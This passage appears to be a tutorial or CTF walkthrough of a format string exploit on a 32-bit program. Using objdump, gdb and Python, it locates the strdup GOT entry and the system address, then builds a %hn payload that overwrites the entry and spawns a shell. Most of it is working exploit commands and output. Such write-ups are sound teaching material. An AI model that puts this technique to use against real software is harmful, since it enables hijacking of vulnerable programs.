 ##### finding the `strdup` GOT entry:
```bash
$ objdump -d a.out
... <snip> ...
08048330 <strdup@plt>:
 8048330:       ff 25 04 a0 04 08       jmp    *0x804a004
 8048336:       68 08 00 00 00          push   $0x8
 804833b:       e9 d0 ff ff ff          jmp    8048310 <_init+0x3c>
```
- Now we know where to write. We want to write the address of `system` to the `strdup` got entry, `0x804a004`.
- For now, we plug in our address into the payload and make sure everything still works out:
```bash
$ env -i ./a.out "$(python -c 'import sys; sys.stdout.write("sh;#\x04\xa0\x04\x08\x06\xa0\x04\x08%00000x%99$hp%00000x%100$hp")')"
sh;#00x804a00480484490x804a006
```

```bash
# SIDE NOTE:
	- disable LIBC randomization via: $ ulimit -s unlimited
```
- Now the address of `system` is at a deterministic location in memory. We can just open up the program in `gdb` and print the address of `system`:
```bash
$ gdb -q a.out
Reading symbols from /home/ppp/a.out...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048417
(gdb) r
Starting program: /home/ppp/a.out 

Breakpoint 1, 0x08048417 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0x555c2250 <system>
```
- All right, now we know that we need to write `0x555c2250` (the address of system) to the address `0x804a004` (the got entry of `strdup`). We are doing this in two parts. First, we write `0x2250` to the two bytes at `0x804a004` then we write `0x555c` to the two bytes at `0x804a006`. We can figure out how many bytes to write in python:
```python
$ python
>>> 0x2250 - 12 # We've already written 12 bytes ("sh;#AAAABBBB").
8772
>>> 0x555c - 0x2250 # We've already written 0x2250 bytes.
13068
```

- Now we plug these values into our payload, change the `%hp` to `%hn`. Note that when we change the `%00000x` to `%08772`, we leave the leading `0` so that our string stays the same length. Here is the final exploit:
```bash
$ env -i ./a.out "$(python -c 'import sys; sys.stdout.write("sh;#\x04\xa0\x04\x08\x06\xa0\x04\x08%08772x%99$hn%13068x%100$hn")')"

sh;#..<garbage>..sh-4.2$
```
- `Woo hoo, we got our shell!``
